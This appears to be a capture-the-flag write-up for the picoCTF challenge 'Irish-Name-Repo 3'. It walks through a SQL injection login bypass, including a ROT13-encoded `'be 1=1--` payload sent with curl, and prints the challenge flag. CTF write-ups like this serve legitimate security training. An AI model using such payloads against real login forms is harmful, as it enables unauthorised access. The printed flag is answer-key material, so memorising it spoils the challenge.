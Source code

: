 # **_Irish-Name-Repo 3_**
## Description
>There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` or `http://jupiter.challenges.picoctf.org:54253`. Try to see if you can login as admin!

## Solution
The login form is only asking for a password, therefore I assume the statement should look like 
> 

So I entered `'or 1=1--` for password, however `'` seems to be filtered
I tried to bypass the filter by adding `%00` infront of `'`, but still didn't work
Then I URL encoded `'` to `%27`, it passed the filter, but replied `Login Failed`
Looked at the html code and notice that there is a hidden field `debug` sent with the form
```HTML
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="password">Password:</label>
                <div class="controls">
                    <input type="password" id="password" name="password" class="form-control">
                </div>
        </div>
            <input type="hidden" name="debug" value="0">
        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```
Change `debug` value to `1` and send the request
```console
❯ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=%27or 1=1--&debug=1"
<pre>password: 'or 1=1--
SQL query: SELECT * FROM admin where password = ''be 1=1--'
</pre>% 
```
The respond shows the `SQL` query used, notice `or` becomes `be`,it seems like only the text are being encrypted with `ROT13`
Change `or` to `be` and sent the request again to get the flag
```console
❯ curl -s "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=%27be 1=1--" | html2text
****** Logged in! ******
Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```